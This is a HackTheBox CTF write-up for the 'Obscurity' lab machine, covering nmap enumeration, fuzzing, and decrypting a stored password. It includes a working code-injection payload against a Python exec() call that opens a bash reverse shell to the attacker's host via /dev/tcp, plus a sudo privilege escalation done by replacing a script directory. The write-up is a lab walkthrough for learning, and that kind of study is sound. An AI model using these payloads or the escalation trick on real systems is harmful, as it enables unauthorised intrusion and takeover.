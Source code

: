 ```yaml
---
layout: post
title: HackTheBox Obscurity (10.10.10.168) Writeup
description: >
  Hackthebox Obscurity Writeup
image: /assets/img/obscurity.png
---
```


**NMAP:**
```
# Nmap 7.80 scan initiated Fri May  8 23:17:40 2020 as: nmap -sC -sV -T4 -p- -oN fullNmap.txt
10.10.10.168
Nmap scan report for 10.10.10.168
Host is up (0.022s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
|   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
|_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
80/tcp   closed http
8080/tcp open   http-proxy BadHTTPServer
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     HTTP/1.1 200 OK
|     Date: Fri, 08 May 2020 23:20:23
|     Server: BadHTTPServer
|     Last-Modified: Fri, 08 May 2020 23:20:23
|     Content-Length: 4171
|     Content-Type: text/html
|     Connection: Closed
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>0bscura</title>
|     <meta http-equiv="X-UA-Compatible" content="IE=Edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta name="keywords" content="">
|     <meta name="description" content="">
|     <!--
|     Easy Profile Template
|     http://www.templatemo.com/tm-467-easy-profile
|     <!-- stylesheet css -->
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/templatemo-blue.css">
|     </head>
|     <body data-spy="scroll" data-target=".navbar-collapse">
|     <!-- preloader section -->
|     <!--
|     <div class="preloader">
|_    <div class="sk-spinner sk-spinner-wordpress">
|_http-server-header: BadHTTPServer
|_http-title: 0bscura
9000/tcp closed cslistener
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May  8 23:19:18 2020 -- 1 IP address (1 host up) scanned in 98.25 seconds
```
Looking at the webpage on port 8080 I see that it mentions a file `SuperSecureServer.py`. I use ffuf to fuzz for the file.
```
 ./ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.10.168:8080/FUZZ/SuperSecureServer.py

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.1.0-git
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

develop                 [Status: 200, Size: 5892, Words: 1806, Lines: 171]
```
Navigating to `http://10.10.10.168:8080/develop/SuperSecureServer.py` I find the python file. Towards the bottom of the file there are these two lines 
```
 info = "output = 'Document: {}'" # Keep the output for later debug
 exec(info.format(path)) # This is how you do string formatting, right?
 ```
 The exec function is being used which can be exploited to execute a reverse shell. By sending a GET request to something like `https://10.10.10.168/rev';os.system("bash -c \'bash -i >& /dev/tcp/10.10.14.36/9999 0>&1\'");'` I can get a reverse shell. The only thing I had to do first was URL encode the the shell portion.
 ```
 root@pc1:~# curl http://10.10.10.168:8080/test%27%3Bos.system%28%22bash%20-c%20%5C%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.36%2F9999%200%3E%261%5C%27%22%29%3B%27
 ```
 With that I now have a shell as `www-data`. the `user.txt` file is located in `/home/robert` but I dont have permission to read it just yet. There are some other files in robert's home directory though.
 ```
 www-data@obscure:/home/robert$ ls
BetterSSH  out.txt               SuperSecureCrypt.py
check.txt  passwordreminder.txt  user.txt
```
Looking at each, `SuperSecureCrypt.py` looks like an encryption/decryption script, `out.txt` is the encrypted output of `check.txt` and `passwordreminder.txt` is another encrypted file which most likely contains a some kind of password. The key that was used for encrypting `check.txt` can be found with the following command
```
python3 SuperSecureCrypt.py -k "$(cat check.txt)" -i out.txt -o /tmp/key.txt -d
 ```
 With that I get a key of `alexandrovich`. I use that key to decrypt the contents of `passwordreminder.txt` and get `SecThruObsFTW`. Now with the credentials `robert;SecThruObsFTW` I can log in as robert and read the `user.txt` flag.
 ```
 robert@obscure:~$ cat user.txt
e4493782066b55fe2755708736ada2d7
```
Typing `sudo -l` to see if I can execute anything with sudo permissions gives me one option
```
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```
Lucky for me BetterSSH is located in roberts home directory. Even though the file is owned by root and I cant modify it, I can modify the directory because of the way linux permissions work even if the directory is owned by root. So my privilege escalation will work like this. First rename the BetterSSH directory to a new name. Then create a new BetterSSH directory with a new `BetterSSH.py` file that executes a bash shell. Since I can execute the command as root it will give me a root shell.
```
robert@obscure:~$ mv BetterSSH/ BetterSSH2
robert@obscure:~$ mkdir BetterSSH
robert@obscure:~$ touch BetterSSH/BetterSSH.py
robert@obscure:~$ vim BetterSSH/BetterSSH.py
robert@obscure:~$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
root@obscure:~# whoami
root
```
From here I can read the `root.txt` file.
```
root@obscure:/root# cat root.txt
512fd4429f33a113a44d5acde23609e3
```
